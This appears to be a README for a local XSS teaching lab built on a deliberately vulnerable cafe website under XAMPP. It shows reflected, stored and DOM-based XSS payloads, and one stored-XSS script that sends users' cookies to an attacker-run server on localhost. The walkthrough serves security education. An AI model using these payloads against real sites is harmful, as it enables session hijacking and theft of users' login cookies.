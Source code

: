 # ReadMe

## Setup

Steps to setup the environment.

> [!WARNING]
> Prerequisites: Download XAMPP  

### Setup MySQL (Running on port 8080)

- Start the Database Server on the XAMPP

- Go to `MySQL` 
  ```bash
  http://localhost:8080/phpmyadmin/
  ```
- Create the database
	- Database name: `db_745`
	- Table name: `reviews`
	- Fields: `Users`, `Comments`, `id`
	![picture 1](images/318ae36c81032737bc4e21d6887d339cc54bb4d3339f7bf3b26ba974e4634cae.png)  

### Setup Cafe Server

- Put `cafe` files in the following structure
	```
	xampp/htdocs/cafe/
	│── assets/				# images
	│── admin.php			# admin login page
	│── db.php				# Database connection file  
	│── index.php			# Main café homepage  
	│── recommendation.php	# DOM-Based XSS demo (dynamic content)  
	│── review.php			# Stored XSS demo (user reviews)  
	│── search.php			# Reflected XSS demo (search bar)  
	└── style.css			# Styling for the website  
	```
- Start the Web Server

- Go to the `cafe` website
  ```bash
  http://localhost:8080/cafe
  ```

### Setup Attacker's Server (Running on port 8000)

- Put attack file in the following structure
	```
	xampp/htdocs/attacker/
	│── log.txt				# stolen information (cookies)
	└── style.css			# stealer code
	```

- Run the attacker server using php
	- Go to the attacker's working directory `xampp/htdocs/attacker/`
	- Open a powershell from here and run the following command
		```bash
 		C:/xampp/php/php -S 127.0.0.1:8000
		```
## Attack

Steps to attack the vulnerable websites

### **Reflected XSS**

The `search` page is vulnerable to `Refected XSS`.

Type in the following command to the search bar to execute an alert. The alert can  be replaced with more dangerous command.

```bash
<script>alert('XSS Attack!')</script>
```
![picture 2](images/7d29d04860bf17db24653480736e11b224aa69a063a02d46879812ec47cb5dd4.png)  

Command got executed.

![picture 3](images/7722ccbf59ac191c660bd78a90bb18756de9944e17aa55ba9e5c5a62fe003ea3.png)  


### **Stored XSS**

The `Review` page is vulnerable to `Stored XSS`.

Type in the following information to the respective fields to trigger an alert.
	- Username: Attacker
	- Review: <script>alert('Hacked!')</script>

```bash
<script>alert('Hacked!')</script>
```

![picture 4](images/8fdd29afff14ae78715405f81d6d40ef9cc8c8b44bfb4cfce7f130c1b2833451.png)  

Command got executed.

![picture 5](images/8fb52f44749eab45020e93876f5ef2a6bdab5e8f83876585ab4c98768615b213.png)  

### **DOM-based XSS**

The `Recommendations` page is vulnerable to `DOM-based XSS`.

Type the following information to the searchbox to trigger an alert.

```bash
<img src=x onerror="alert('XSS Attack')">
```
![picture 7](images/0503aa4ab076abe69a770889a50877de9344dd1261ca48a940b1e6ae64d9760d.png)  

Command got executed.

![picture 8](images/edfa812d518fb90f88ac9437445408755ccd0083132e43aeb83dfb74ef796fa5.png)  

## Advanced Attack

> [!WARNING]
> For this attack to succeed, the attacker php server needs to be running.

In the previous examples, the just execute the alert.

In this section, we'll try to steal cookies (including user login cookie) from the `Review` page.

As an attacker, type the following input to the respective fields in the `Review` page.
	- Username: Attacker
	- Review: `<script> fetch('http://localhost:8000/steal.php?cookie=' + document.cookie); </script>`

![picture 9](images/459c41dd8d46cd6559aa018fe5d29b9c596b894e2210038b93d8a61fc6592dfa.png)  

Every time a user use this page, the cookies will be sent to the attacker's server in file `log.txt`

![picture 10](images/0ac942705ee67ff16ac01950db4af7d9a92e524daa93e3bdef6cb779daaa1b16.png)  

The cookies are stolen.

![picture 11](images/f5373aaf1146fda23ae35c680fea5046866fced15a33784240678d2a748f0b3f.png)  



